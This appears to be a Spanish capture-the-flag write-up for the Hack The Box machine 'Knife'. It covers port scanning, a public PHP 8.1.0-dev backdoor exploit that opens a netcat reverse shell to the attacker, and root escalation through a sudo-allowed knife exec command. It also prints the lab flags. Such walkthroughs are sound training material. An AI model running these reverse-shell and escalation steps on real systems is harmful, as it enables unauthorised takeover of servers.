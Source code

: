 ```yaml
---
icon: desktop
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Knife

`Knife` es una máquina Linux de dificultad fácil que cuenta con una aplicación que se ejecuta en una versión de PHP con puerta trasera. Esta vulnerabilidad se aprovecha para obtener un punto de apoyo en el servidor. Luego se aprovecha una configuración incorrecta de sudo para obtener un shell de root.

<figure><img src="../../.gitbook/assets/Knife.png" alt="" width="563"><figcaption></figcaption></figure>

***



```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.242 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 04:56 CET
Initiating SYN Stealth Scan at 04:56
Scanning 10.10.10.242 [65535 ports]
Discovered open port 22/tcp on 10.10.10.242
Discovered open port 80/tcp on 10.10.10.242
Completed SYN Stealth Scan at 04:56, 12.50s elapsed (65535 total ports)
Nmap scan report for 10.10.10.242
Host is up, received user-set (0.042s latency).
Scanned at 2025-01-26 04:56:13 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.60 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65541 (2.622MB)
```





```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.242
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```



```bash
❯ nmap -sCV -p22,80 10.10.10.242 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 04:58 CET
Nmap scan report for knife.htb (10.10.10.242)
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   90.36 ms 10.10.16.1
2   31.31 ms knife.htb (10.10.10.242)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```





```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```



<figure><img src="../../.gitbook/assets/4128_vmware_hhbMEKYg8V.png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/imagen (264).png" alt=""><figcaption></figcaption></figure>



{% embed url="https://github.com/flast101/php-8.1.0-dev-backdoor-rce" %}



```bash
❯ git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce; cd php-8.1.0-dev-backdoor-rce
Clonando en 'php-8.1.0-dev-backdoor-rce'...
remote: Enumerating objects: 241, done.
remote: Counting objects: 100% (239/239), done.
remote: Compressing objects: 100% (113/113), done.
remote: Total 241 (delta 128), reused 232 (delta 124), pack-reused 2 (from 1)
Recibiendo objetos: 100% (241/241), 1.66 MiB | 9.65 MiB/s, listo.
Resolviendo deltas: 100% (128/128), listo.
```



```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```



```bash
❯ python3 revshell_php_8.1.0-dev.py http://10.10.10.242 10.10.16.5 443
```



```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.242] 52728
bash: cannot set terminal process group (1035): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ cat /home/james/user.txt
cat /home/james/user.txt
a7ef6c4416770ea516c4b6b8e7fc7304
```





```bash
james@knife:/$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```



{% embed url="https://gtfobins.github.io/gtfobins/knife/" %}

```bash
james@knife:/$ sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
root@knife:/# cat /root/root.txt
cat /root/root.txt
a802f8156fabc107613019765155b2bc
```
